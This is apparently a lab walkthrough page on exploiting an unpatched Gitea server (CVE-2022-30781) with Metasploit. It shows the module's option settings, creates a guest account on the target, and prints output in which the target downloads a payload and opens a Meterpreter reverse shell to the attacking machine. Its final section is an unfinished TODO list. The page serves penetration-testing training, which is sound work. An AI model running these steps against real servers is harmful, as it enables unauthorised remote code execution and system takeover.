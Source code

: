 +++
title = "Unpatched Gitea"
weight = 1
+++

## 1. Searching Metasploit
Start up your *msfconsole* and search for the Gitea exploit.
`search gitea`
![](./metasploit01.png)
You will recall that your target Gitea server is potentially vulnerable to *CVE-2022-30781* and that the remediation commit in Github 
references escaping the git fetch remote URL.  In this case we're interested in option *#0*.  Load up this exploit module with either:

`use 0`

`use exploit/multi/http/gitea_git_fetch_rce`

## 2. Attempting the exploit
Typing *show options* tells us we need to set a couple of options

* **RHOSTS** - Our target IP address
* **LHOST**  - The IP of our attacking machine
* **USERNAME** - Presumably Gitea credentials
* **PASSWORD** - Presumably Gitea credentials

Setting values within *msfconsole* is really straight forward.

 * `set RHOSTS 192.168.0.105`
 * `set LHOST 192.168.0.103`
 * `set USERNAME guest`
 * `set PASSWORD guest`
 * `set SRVPORT 8181` - The port on our machine we'll tell Gitea to connect to
 * `set ForceExploit true` - Ignores whatever the *check* module returns
 * `run` - Try the exploit

```bash
[*] Started reverse TCP handler on 192.168.0.103:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Cannot reliably check exploitability. Check TARGETURI - Unexpected HTTP response code ForceExploit is enabled, proceeding with exploitation.
[*] Using URL: http://192.168.0.103:8181/
[*] Using URL: http://192.168.0.103:8181/3oYWb2XU9
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/gitea_git_fetch_rce) > 
```

## 3. Creating a user
It looks like our exploit will require valid credentials to Gitea.  Check if the server allows account creation.
![](./gitea01.png)

It looks like we can create a new user account!
![](./gitea02.png)

Now head back to your *msfconsole* and set the *USERNAME* and *PASSWORD* for the user account you just created and try the exploit again.

```bash
[*] Started reverse TCP handler on 192.168.0.103:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: 1.16.6
[*] Using URL: http://192.168.0.103:8181/
[*] Using URL: http://192.168.0.103:8181/bnQOtbfkgbqrJGD
[*] Client 192.168.0.105 (curl/7.47.0) requested /bnQOtbfkgbqrJGD
[*] Sending payload to 192.168.0.105 (curl/7.47.0)
[*] Sending stage (3045348 bytes) to 192.168.0.105
[*] Command Stager progress - 100.00% done (121/121 bytes)
[*] Meterpreter session 1 opened (192.168.0.103:4444 -> 192.168.0.105:42720) at 2023-03-21 14:46:55 -0500

meterpreter > 
```

## 4. Meterpreter basics

*TODO*
 * List running processes
 * Upload/Download ifles
 * get a raw command shell
 * meterpreter modules
